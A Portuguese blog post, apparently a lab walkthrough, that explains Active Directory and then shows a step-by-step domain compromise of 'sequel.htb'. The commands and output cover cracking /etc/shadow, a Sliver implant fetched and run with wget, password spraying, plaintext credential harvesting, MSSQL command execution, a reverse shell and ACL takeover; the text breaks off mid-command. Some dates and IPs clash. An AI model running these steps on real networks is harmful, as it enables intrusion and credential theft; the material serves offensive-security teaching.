









Date: 2024-04-08 Tags: Pentest, ADCS, RedTeam Category: security
O Active Directory (AD) é uma ferramenta para administradores de redes, permitindo a criação e gerenciamento de domínios, usuários e objetos dentro de uma rede corporativa. Por meio do AD, é possível conectar todas as maquinas em um servidor DC (Domain Controler) ele que autentifica os usuários por meio do protocolo kerberos.
Por exemplo, um administrador pode criar um grupo de usuários dentro do domínio corp.local e conceder a eles privilégios específicos para acessar pastas ou sistemas internos. À medida que a rede cresce, o Active Directory facilita a organização de grandes volumes de usuários e dispositivos em grupos lógicos, garantindo um controle refinado sobre permissões e acessos.
O Active Directory é organizado da seguinte forma:
1) Domínio (Domain)
2) Árvore (Tree)
3) Floresta (Forest)
Um domínio é um agrupamento lógico de objetos (usuários, computadores, impressoras, etc.) que compartilham um mesmo banco de dados. Todos os recursos dentro de um domínio seguem as regras estabelecidas pelo administrador.
Exemplo: O domínio corp.local pode conter usuários como joao@corp.local, ana@corp.local e dispositivos como servidor1.corp.local.
Uma árvore é um conjunto de domínios que compartilham um espaço de nomes contínuo. Dentro da árvore, os domínios têm relações hierárquicas e de confiança entre si.
Exemplo: Dentro da árvore corp.local, podemos ter domínios secundários como:
A floresta representa o nível mais alto da hierarquia do Active Directory. Ela é composta por múltiplas árvores que compartilham um esquema e uma configuração de segurança comuns, mas podem ter domínios distintos e independentes.
Exemplo: Uma empresa multinacional pode conter uma floresta contendo diferentes árvores:
Em um cenario no qual um atacante consegue comprometer um entry point dentro da rede alvo
seja explorando algum serviço aberto para internet, obtendo senhas de vpn ou por enviando phising
o processo de reconhecimento interno é iniciado, o objetivo em questão é comprometer o DC a.k.a Domain Controler
e se tornar Domain Admin.
No nosso cenario hipotetico o servidor "server-501" é usado como pivoting para a rede.
[root@server-501]# lastlog
root tty1 5 Fri Mar 7 11:20:55 -0600 2025
bin **Never logged in**
daemon **Never logged in**
adm **Never logged in**
lp **Never logged in**
sync **Never logged in**
shutdown **Never logged in**
halt **Never logged in**
mail **Never logged in**
postfix **Never logged in**
gdm tty1 Wed Jun 12 15:33:27 -0600 2024
sshd **Never logged in**
chrony **Never logged in**
tcpdump **Never logged in**
rose pts/3 10.10.11.252 Sat Nov 9 12:21:01 -0600 2024
mysql **Never logged in**
nginx **Never logged in**
zabbix **Never logged in**
O usuário rose logou na maquina em Novembro de 2024
essa informação vai ser util para nós.
Vamos quebrar a hash do usuário rose:
[root@server-501]# cat /etc/passwd; echo "\r\n" ; cat /etc/shadow
root@kali: /home/Documents
# unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
KxEPkKe6R8su (rose)
// obtendo as rotas
[root@server-501]# route
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
default 10.10.0.0 0.0.0.0 UG 100 0 0 eth0
10.10.0.0 0.0.0.0 255.255.0.0 U 0 0 0 eth0
172.17.0.0 0.0.0.0 255.255.0.0 U 0 0 0 docker0
// enumerando
root@server-501# ./nmap -sn 10.10.0-255.1/24 | grep report | cut -d ' ' -f 5
10.10.10.2
10.10.10.3
10.10.10.245
10.10.11.10
10.10.11.24
10.10.11.31
10.10.11.37
10.10.11.38
10.10.11.39
10.10.11.40
10.10.11.41
10.10.11.42
10.10.11.43
10.10.11.44
10.10.11.45
10.10.11.46
10.10.11.47
10.10.11.48
10.10.11.49
10.10.11.50
10.10.11.51
10.10.14.1
10.10.14.227
Como podemos ver a rota principal da rede é 10.10.0.0/16.
Antes de começarmos a enumerar os serviços vamos iniciar nosso C2 Sliver
root@kali: /home/kali/Documents
# service sliver start
root@kali: /home/kali/Documents
# sliver
Connecting to localhost:31337 ...
██████ ██▓ ██▓ ██▒ █▓▓█████ ██▀███
▒██ ▒ ▓██▒ ▓██▒▓██░ █▒▓█ ▀ ▓██ ▒ ██▒
░ ▓██▄ ▒██░ ▒██▒ ▓██ █▒░▒███ ▓██ ░▄█ ▒
▒ ██▒▒██░ ░██░ ▒██ █░░▒▓█ ▄ ▒██▀▀█▄
▒██████▒▒░██████▒░██░ ▒▀█░ ░▒████▒░██▓ ▒██▒
▒ ▒▓▒ ▒ ░░ ▒░▓ ░░▓ ░ ▐░ ░░ ▒░ ░░ ▒▓ ░▒▓░
░ ░▒ ░ ░░ ░ ▒ ░ ▒ ░ ░ ░░ ░ ░ ░ ░▒ ░ ▒░
░ ░ ░ ░ ░ ▒ ░ ░░ ░ ░░ ░
░ ░ ░ ░ ░ ░ ░ ░
All hackers gain recover
[*] Server v1.5.42 - 235230d05ec472851023dbcb871ddee2eb9e3df
[*] Welcome to the sliver shell, please type 'help' for options
[*] Check for updates with the 'update' command
sliver >
// nosso objetivo aqui é criar uma carga util sliver para o sistema linux para facilitar o pivoting
sliver > mtls
[*] Starting mTLS listener ...
[*] Successfully started job #1
sliver > jobs
ID Name Protocol Port Stage Profile
==== ====== ========== ====== ===============
1 mtls tcp 8888
sliver > generate --mtls 10.10.14.227:8888 --os linux --arch amd64 --evasion --format elf --save /tmp --seconds 5 --jitter 3
[*] Generating new linux/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 21s
[*] Implant saved to /tmp/CLASSIC_JUDGE
//baixando para a maquina
[root@server-501]# wget 10.10.14.227/CLASSIC_JUDGE -O /tmp/xfile ; chmod +x /tmp/xfile; /tmp/xfile & // carga util do sliver
// conexão recebida
[*] Beacon a42ca296 CLASSIC_JUDGE - 10.10.14.227:32876 (server-501) - linux/amd64 - Sat, 02 Mar 2025 10:25:13 EST
sliver > use a42ca296
[*] Active beacon CLASSIC_JUDGE (a42ca296-7f35-4379-8d47-c42dba27ef64)
// vamos iniciar um socks proxy para nos comunicarmos com a rede interna
sliver (CLASSIC_JUDGE) >socks5 start
[*] Started SOCKS5 127.0.0.1 1081
In-band SOCKS proxies can be a little unstable depending on protocol
perfeito agora podemos começar a enumerar os smbs e windows da rede
root@kali: /home/kali/Documents
# proxychains -q netexec smb hosts.txt
SMB 10.10.11.51 445 SERVER-473 [*] Windows 10 / Server 2022 Build 19282 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.51 445 DC [*] Windows 10 / Server 2022 Build 19282 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.39 445 SERVER-301 [*] Windows 10 / Server 2016 Build 11825 x64 (name:SERVER-301) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.41 445 SERVER-95 [*] Windows 10 / Server 2012 Build 26201 x64 (name:SERVER-95) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.24 445 SERVER-451 [*] Windows Server 2022 Build 20348 x64 (name:SERVER-451) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.42 445 SERVER-651 [*] Windows Server 2022 Build 20348 x64 (name:SERVER-651) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.31 445 SERVER-152 [*] Windows 10 / Server 2019 Build 17763 x64 (name:152) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.10.3 445 LAME [*] Unix (name:LAME) (domain:sequel.htb) (signing:False) (SMBv1:True)
Podemos ver que o ip do DomainControler é 10.10.11.51
root@server-501# ./nmap -v --open -sS -sV 10.10.11.51
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-08 23:56:36Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
lembra da senha da rose que pegamos? vamos tentar usar ela
root@server-501# ./kerbrute userenum -d sequel.htb --dc 10.10.11.51 usuários.txt
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 03/08/25 - Ronnie Flathers @ropnop
2025/03/08 19:18:53 > Using KDC(s):
2025/03/08 19:18:53 > 10.10.11.51:88
2025/03/08 19:18:53 > [+] VALID USERNAME: administrator@sequel.htb
2025/03/08 19:18:53 > [+] VALID USERNAME: rose@sequel.htb
2025/03/08 19:18:53 > Done! Tested 14 usernames (2 valid) in 0.449 seconds
// o usuário rose existe no domínio isso é bom para nós
root@server-501# ./kerbrute passwordspray -d sequel.htb --dc 10.10.11.51 usuários.txt "KxEPkKe6R8su"
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 03/08/25 - Ronnie Flathers @ropnop
2025/03/08 19:20:09 > Using KDC(s):
2025/03/08 19:20:09 > 10.10.11.51:88
2025/03/08 19:20:10 > [+] VALID LOGIN: rose@sequel.htb:KxEPkKe6R8su
2025/03/08 19:20:10 > Done! Tested 14 logins (1 successes) in 0.903 seconds
// e para nossa sorte a senha bate com as credenciais do linux
// porem não temos privilegios
root@kali: /home/kali/Documents
# proxychains -q netexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su -d sequel.htb [19:20:10]
SMB 10.10.11.51 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.51 445 DC01 [+] sequel.htb\rose:KxEPkKe6R8su
Vamos começar nossa enumeração de usuários
root@kali: /home/kali/Documents
# proxychains -q netexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su -d sequel.htb --users --rid-brute --shares [19:22:05]
SMB 10.10.11.51 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.51 445 DC01 [+] sequel.htb\rose:KxEPkKe6R8su
SMB 10.10.11.51 445 DC01 [*] Enumerated shares
SMB 10.10.11.51 445 DC01 Share Permissions Remark
SMB 10.10.11.51 445 DC01 ----- ----------- ------
SMB 10.10.11.51 445 DC01 Accounting Department READ
SMB 10.10.11.51 445 DC01 ADMIN$ Remote Admin
SMB 10.10.11.51 445 DC01 C$ Default share
SMB 10.10.11.51 445 DC01 IPC$ READ Remote IPC
SMB 10.10.11.51 445 DC01 NETLOGON READ Logon server share
SMB 10.10.11.51 445 DC01 SYSVOL READ Logon server share
SMB 10.10.11.51 445 DC01 Users READ
SMB 10.10.11.51 445 DC01 -Username- -Last PW Set- -BadPW- -Description-
SMB 10.10.11.51 445 DC01 Administrator 2024-06-08 16:32:20 1 Built-in account for administering the computer/domain
SMB 10.10.11.51 445 DC01 Guest 2024-12-25 14:44:53 0 Built-in account for guest access to the computer/domain
SMB 10.10.11.51 445 DC01 krbtgt 2024-06-08 16:40:23 0 Key Distribution Center Service Account
SMB 10.10.11.51 445 DC01 michael 2024-06-08 16:47:37 0
SMB 10.10.11.51 445 DC01 ryan 2024-06-08 16:55:45 0
SMB 10.10.11.51 445 DC01 oscar 2024-06-08 16:56:36 0
SMB 10.10.11.51 445 DC01 sql_svc 2024-06-09 07:58:42 0
SMB 10.10.11.51 445 DC01 rose 2024-12-25 14:44:54 0
SMB 10.10.11.51 445 DC01 ca_svc 2025-03-09 00:22:29 0
SMB 10.10.11.51 445 DC01 [*] Enumerated 9 local users: SEQUEL
SMB 10.10.11.51 445 DC01 498: SEQUEL\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB 10.10.11.51 445 DC01 500: SEQUEL\Administrator (SidTypeUser)
SMB 10.10.11.51 445 DC01 501: SEQUEL\Guest (SidTypeUser)
SMB 10.10.11.51 445 DC01 502: SEQUEL\krbtgt (SidTypeUser)
SMB 10.10.11.51 445 DC01 512: SEQUEL\Domain Admins (SidTypeGroup)
SMB 10.10.11.51 445 DC01 513: SEQUEL\Domain Users (SidTypeGroup)
SMB 10.10.11.51 445 DC01 514: SEQUEL\Domain Guests (SidTypeGroup)
SMB 10.10.11.51 445 DC01 515: SEQUEL\Domain Computers (SidTypeGroup)
SMB 10.10.11.51 445 DC01 516: SEQUEL\Domain Controllers (SidTypeGroup)
SMB 10.10.11.51 445 DC01 517: SEQUEL\Cert Publishers (SidTypeAlias)
SMB 10.10.11.51 445 DC01 518: SEQUEL\Schema Admins (SidTypeGroup)
SMB 10.10.11.51 445 DC01 519: SEQUEL\Enterprise Admins (SidTypeGroup)
SMB 10.10.11.51 445 DC01 520: SEQUEL\Group Policy Creator Owners (SidTypeGroup)
SMB 10.10.11.51 445 DC01 521: SEQUEL\Read-only Domain Controllers (SidTypeGroup)
SMB 10.10.11.51 445 DC01 522: SEQUEL\Cloneable Domain Controllers (SidTypeGroup)
SMB 10.10.11.51 445 DC01 525: SEQUEL\Protected Users (SidTypeGroup)
SMB 10.10.11.51 445 DC01 526: SEQUEL\Key Admins (SidTypeGroup)
SMB 10.10.11.51 445 DC01 527: SEQUEL\Enterprise Key Admins (SidTypeGroup)
SMB 10.10.11.51 445 DC01 553: SEQUEL\RAS and IAS Servers (SidTypeAlias)
SMB 10.10.11.51 445 DC01 571: SEQUEL\Allowed RODC Password Replication Group (SidTypeAlias)
SMB 10.10.11.51 445 DC01 572: SEQUEL\Denied RODC Password Replication Group (SidTypeAlias)
SMB 10.10.11.51 445 DC01 1000: SEQUEL\DC01$ (SidTypeUser)
SMB 10.10.11.51 445 DC01 1101: SEQUEL\DnsAdmins (SidTypeAlias)
SMB 10.10.11.51 445 DC01 1102: SEQUEL\DnsUpdateProxy (SidTypeGroup)
SMB 10.10.11.51 445 DC01 1103: SEQUEL\michael (SidTypeUser)
SMB 10.10.11.51 445 DC01 1114: SEQUEL\ryan (SidTypeUser)
SMB 10.10.11.51 445 DC01 1116: SEQUEL\oscar (SidTypeUser)
SMB 10.10.11.51 445 DC01 1122: SEQUEL\sql_svc (SidTypeUser)
SMB 10.10.11.51 445 DC01 1128: SEQUEL\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB 10.10.11.51 445 DC01 1129: SEQUEL\SQLRUserGroupSQLEXPRESS (SidTypeAlias)
SMB 10.10.11.51 445 DC01 1601: SEQUEL\rose (SidTypeUser)
SMB 10.10.11.51 445 DC01 1602: SEQUEL\Management Department (SidTypeGroup)
SMB 10.10.11.51 445 DC01 1603: SEQUEL\Sales Department (SidTypeGroup)
SMB 10.10.11.51 445 DC01 1604: SEQUEL\Accounting Department (SidTypeGroup)
SMB 10.10.11.51 445 DC01 1605: SEQUEL\Reception Department (SidTypeGroup)
SMB 10.10.11.51 445 DC01 1606: SEQUEL\Human Resources Department (SidTypeGroup)
SMB 10.10.11.51 445 DC01 1607: SEQUEL\ca_svc (SidTypeUser)
Conseguimos descobrir outros usuários locais e de rede, além de um compartilhamento smb contendo alguns arquivos.
root@kali: # proxychains -q impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# shares
Accounting Department
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
Users
# use Accounting Department
# ls
drw-rw-rw- 0 Sun Jun 9 07:11:31 2024 .
drw-rw-rw- 0 Sun Jun 9 07:11:31 2024 ..
-rw-rw-rw- 10217 Sun Jun 9 07:11:31 2024 accounting_2024.xlsx
-rw-rw-rw- 6780 Sun Jun 9 07:11:31 2024 accounts.xlsx
# get accounting_2024.xlsx
# get accounts.xlsx
//baixando para nossa maquina podemos ver o conteudo dos arquivos:
Angela Martin angela@sequel.htb angela 0fwz7Q4mSpurIt99
Oscar Martinez oscar@sequel.htb oscar 86LxLBMgEWaKUnBG
Kevin Malone kevin@sequel.htb kevin Md9Wlq1E5bZnVDVo
- - sa@sequel.htb sa MSSQLP@ssw0rd!
Conseguimos algumas senhas de usuário, e uma do serviço mssql.
Agora faremos uma enumeração de domínio para nos ajudar a saber
configurações do Domain.
// via LDAP
$ ldapdomaindump -u sequel.htb\\rose -p 'KxEPkKe6R8su' 10.10.11.51 -o ldap/
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
// via Bloodhound
bloodhound-python -u rose -p KxEPkKe6R8su -ns 10.10.11.51 -d sequel.htb -c All


Podemos ver os usuários locais e de rede. A única conta de administrador de domínio cadastrada atualmente.
Vamos tentar autenticar com o netexec no mssql
root@kali:~$ proxychains -q netexec mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' --local-auth [16:53:09]
MSSQL 10.10.11.51 1433 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL 10.10.11.51 1433 DC01 [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
Bingo!
Veja que o netexec está marcando o target como Pwn3d isso significa que podemos executar comandos remotos.
$ netexec mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' --local-auth -X 'whoami ;net user' [16:56:10]
MSSQL 10.10.11.51 1433 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL 10.10.11.51 1433 DC01 [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL 10.10.11.51 1433 DC01 [+] Executed command via mssqlexec
MSSQL 10.10.11.51 1433 DC01 sequel\sql_svc
MSSQL 10.10.11.51 1433 DC01 User accounts for \\DC01
MSSQL 10.10.11.51 1433 DC01 -------------------------------------------------------------------------------
MSSQL 10.10.11.51 1433 DC01 Administrator ca_svc Guest
MSSQL 10.10.11.51 1433 DC01 krbtgt michael oscar
MSSQL 10.10.11.51 1433 DC01 rose ryan sql_svc
MSSQL 10.10.11.51 1433 DC01 The command completed successfully.
Vamos escalar isso para uma shell usando base64

$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.15.6] from (UNKNOWN) [10.10.11.72] 58522
PS C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== ========
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
Olhando para os arquivos, vemos um arquivo de configuração do servidor.
Dentro dele podemos encontrar a senha WqSZAF6CysDQbGb3.
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
Vamos usar a lista de usuários que pegamos, e pulverizar essa senha.
root@kali:~# kerbrute passwordspray -d sequel.htb --dc 10.10.11.51 users.txt "WqSZAF6CysDQbGb3" [17:19:29]
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 03/10/25 - Ronnie Flathers @ropnop
2025/03/10 17:19:46 > Using KDC(s):
2025/03/10 17:19:46 > 10.10.11.51:88
2025/03/10 17:19:47 > [+] VALID LOGIN: sql_svc@sequel.htb:WqSZAF6CysDQbGb3
2025/03/10 17:19:47 > [+] VALID LOGIN: ryan@sequel.htb:WqSZAF6CysDQbGb3
2025/03/10 17:19:47 > Done! Tested 6 logins (2 successes) in 0.927 seconds
ryan faz parte do grupo Management Department dentro do domínio

Vamos ver as permissões que ele tem:

Podemos ver que ele tem o atributo de WriteOwner em um usuário chamado CA_SVC, ou seja, consegue tomar posse do objeto e lançar um ataque de Shadow Credentials.
Basicamente, vamos transferir o atributo de certificado para o usuário ryan, e explorar uma vulnerabilidade do ActiveDirectory conhecida por CVE-2022-26923 ou Certifried na qual vamos criar um certificado e extrair hashs do Domain Admin.

root@kali:~# bloodyAD --host '10.10.11.51' -d 'sequel.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
root@kali:~# dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
